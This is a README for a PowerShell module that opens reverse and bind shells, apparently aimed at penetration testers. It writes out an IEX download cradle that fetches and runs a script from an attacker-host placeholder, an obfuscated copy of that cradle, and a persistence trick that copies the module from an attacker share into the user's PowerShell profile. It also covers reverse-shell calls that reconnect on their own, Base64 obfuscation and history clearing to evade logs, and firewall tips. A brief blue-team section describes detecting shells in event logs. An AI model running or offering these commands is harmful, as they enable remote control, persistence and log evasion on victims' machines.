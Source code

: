 # ReversePowerShell
__See "Command Usage:" section below for command usage details__
### NOW IN POWERSHELL GALLERY!!!
```powershell
# Install Module
Install-Module ReversePowerShell

# Update Module
Update-Module -Name ReversePowerShell
# OR
Install-Module ReversePowerShell -Force
```
---

Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and Metasploit modules or whatever other listeners you use.
This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session.
If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.<br>
Install this module by placing the cloned folder "__ReversePowerShell__" inside the following directory location.<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"__ <br>
 For PowerShell Core v6 the location of this module will need to be<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"__<br>

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX) this module can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")

# To obfuscate the above command you can do something like the below command
& (`G`C`M *ke-E*) '(& (`G`C`M *ew-O*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`S`T`R`I`N`G"('htt'+'p://'+'127.0.0.1/ReversePowerShell.ps1')
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a target machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands every time the executing user opens a PowerShell session. This means you will need to open a new PowerShell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

# Command Usage:

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

### INVOKE-REVERSEPOWERSHELL USAGE INFORMATION
__SPECIAL FEATURES OF INVOKE-REVERSEPOWERSHELL__
- __Re-Connect Loop__ This cmdlet automatically attempts to reconnect to a listener if a session get disconnected. As long as the powershell process is running it will attempt to connect back to a listener every 30 seconds. In available situations a 30 second timer is displayed. The countdown timer can be viewed in the image below.
![Reconnection Timer Loop](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/ReconnectTimer.png)
- __Obfuscation__ parameter can be used to obfuscate executed commands using Base64. The Event Viewer will show logs such as the ones in the below image when this parameter is defined.
![Obfuscation in Event Viewer](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/PSObfuscatedEventLog.png)
- __Clear History__ parameter can be used to clear the current sessions command history and log file. The purpose of this is to help keep clear text passwords from appearing in log files.

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089
```

In the below command the listening port 8089 on 192.168.0.10 is connected too. When the session is exited the -ClearHistory parameter specified attempts to clear your sessions command history as well as clear the powershell log file.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```

The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089. The -Obfuscate parameter obfuscates the commands executed using Base64 so they do not appear in clear text in the Event Log.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
```

#### ISSUE BIND SHELL CONNECTION
The below command is used to connect to a listening Bind Shell port. Any of the special parameters can be used to with the Bind parameter set name as well.
```powershell
Invoke-ReversePowerShell -Bind -IpAddress 192.168.0.10 -Port 8089
```

#### FIND EVIDENCE OF REVERSE SHELL CONNECTION
```powershell
# Check the localhost for evidence of reverse shell in the event logs
Find-ReversePowerShell

# Checks remote computer DC01 for evidence of a shell connection and saves the event results to C:\Temp\results.xml
Find-ReverseShell -ComputerName DC01.domain.com -FilePath C:\Temp\Results.xml
```

---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
